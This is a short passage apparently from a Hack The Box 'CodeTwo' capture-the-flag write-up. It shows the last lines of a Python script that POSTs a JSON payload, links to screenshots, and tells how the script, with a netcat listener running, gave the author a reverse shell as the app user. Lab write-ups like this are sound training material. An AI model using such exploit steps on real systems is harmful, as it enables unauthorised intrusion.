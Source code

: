 ```
headers = {"Content-Type": "application/json"}  
  
r = requests.post(url, data=json.dumps(payload), headers=headers)  
print(r.text)

```

![POC](Pictures/htb_codetwo_POC.png)

After setting up a netcat listener on my machine, running the script successfully provided a reverse shell, granting me access to the system as the app user.

![database](Pictures/htb_codetwo_database.png)
